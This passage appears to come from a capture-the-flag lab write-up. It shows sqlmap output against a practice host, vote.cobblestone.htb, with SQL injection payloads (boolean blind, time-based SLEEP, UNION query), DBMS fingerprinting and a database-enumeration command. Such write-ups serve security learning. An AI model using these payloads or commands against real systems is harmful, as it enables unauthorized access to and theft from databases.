     Payload: url=cobblestone.htb' AND 6498=6498 AND 'kXeB'='kXeB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=cobblestone.htb' AND (SELECT 7662 FROM (SELECT(SLEEP(5)))bgar) AND 'zhWm'='zhWm

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6357' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a766a71,0x6a73435468644d4e77557753514f674d63435274495471415949714e466552705451644f5364614f,0x7162717871),NULL-- -
---
[16:30:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:30:52] [INFO] fetched data logged to text files under '/home/lily/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 16:30:52 /2025-08-22/
```

## Now doing a check for other databases
``` python sqlmap.py -r req --batch --dbs```
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.8.8#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:32:26 /2025-08-22/

[16:32:26] [INFO] parsing HTTP request from 'req'
[16:32:26] [INFO] resuming back-end DBMS 'mysql' 
[16:32:26] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=90'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=cobblestone.htb' AND 6498=6498 AND 'kXeB'='kXeB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=cobblestone.htb' AND (SELECT 7662 FROM (SELECT(SLEEP(5)))bgar) AND 'zhWm'='zhWm
